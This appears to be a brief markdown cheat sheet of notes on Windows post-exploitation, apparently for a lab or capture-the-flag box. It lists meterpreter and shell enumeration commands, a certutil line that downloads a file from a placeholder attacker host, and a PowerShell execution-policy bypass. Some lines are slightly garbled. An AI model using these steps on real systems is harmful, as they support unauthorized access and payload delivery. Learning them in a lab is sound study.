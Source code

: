 # Basics

```
rdesktop 10.10.173.32
```

meterpreter commands

```
getuid
```

```
sysinfo
```

```
shellShell Commands
```

```
dir                         #ls alternative for windows
```

```
dir /R
```

```
systeminfo
```

## file transfer windows

```
certutil -urlcache -f http://<ip>/<filename> <filename to be saved as>
```

how to grep

```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

Output

```
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
System Type:               X86-based PC
```

## If u have a meterpreter connection to window

```
load powershell
```

## if a normal shell then&#x20;

```
powershell -p bypass
```

